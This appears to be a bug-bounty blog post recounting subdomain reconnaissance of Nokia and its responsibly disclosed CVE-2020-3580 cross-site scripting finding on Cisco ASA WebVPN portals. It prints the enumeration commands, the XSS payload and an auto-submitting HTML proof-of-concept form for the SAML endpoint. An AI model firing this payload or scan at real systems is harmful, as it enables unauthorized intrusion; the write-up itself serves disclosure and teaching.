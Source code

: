 ```yaml
---
title:  "Exploiting Cisco ASA CVE-2020-3580: How I Discovered the Vulnerability on Nokia Subdomains"
layout: post
---
```


Cisco Adaptive Security Appliance (ASA) is a tool used for corporate VPN access, firewall protection, and threat management. However, it is not without its vulnerabilities. One such vulnerability, **CVE-2020-3580**, was discovered in 2020 and affects the WebVPN portal, allowing attackers to execute cross-site scripting (XSS) attacks that could compromise connected systems.

In this post, I’ll explain how I uncovered this vulnerability on various Nokia subdomains using reconnaissance techniques.



<h1 style="color: #4169E1;">🕵️‍♂️ Reconnaissance:</h1>

The first step in bug bounty hunting or vulnerability research is always reconnaissance. My goal was to map out the Nokia attack surface to find potentially vulnerable assets, and for that, I leveraged several tools and methods.

### Passive Reconnaissance

I started with passive recon to gather subdomains and IPs associated with Nokia. For this, I used the following tools and techniques:

#### Subdomain Enumeration

I used tools like **Sublist3r**, **Amass**, and **Subfinder** to gather a large list of Nokia subdomains:

````
subfinder -d nokia.com -o nokia-subdomains.txt
amass enum -d nokia.com -o nokia-amass.txt
````

This provided a list of subdomains that are publicly known and might host various services, including VPN portals. After gathering subdomains, I looked for endpoints that were hosting web interfaces. Using tools like httpx, I quickly fingerprinted these subdomains to check for VPN interfaces, login pages, or any Cisco ASA systems:

```
cat nokia-subdomains.txt nokia-amass.txt | sort -u | tee subdomains.txt
cat subdomains.txt | httpx -status-code -title -tech-detect -o output.txt
```
Many subdomains returned HTTP 200 with Cisco VPN or WebVPN portals exposed.

## Testing for CVE-2020-3580:
To test for the vulnerability, we need to send a POST request to /+CSCOE+/saml/sp/acs?tgname=a with the SAMLResponse parameter set to a payload that triggers the XSS vulnerability. The payload is:

```
'><svg/onload=alert('xss')>
```
### Steps to Reproduce:
```
<html>
  <body>
    <script>history.pushState('', '', '/')</script>
    <form action="https://████/+CSCOE+/saml/sp/acs?tgname=a" method="POST">
      <input type="hidden" name="SAMLResponse" value="&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;&apos;XSS&apos;&#41;&gt;" />
      <input type="hidden" name="" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## ⚠️ CVE-2020-3580 on Nokia Subdomains:

I wrote a Bash script to check each of the subdomains for this vulnerability. Many of the subdomains were found to be vulnerable, and I reported them to Nokia through their responsible disclosure policy.

## 📅 Disclosure Timelines:

- 17 Aug 2022 — Vulnerability discovered and reported.
- 18 Aug 2022 — Team confirmed receipt of the report.
- 20 Aug 2022 — I earned a spot on their Hall of Fame page.
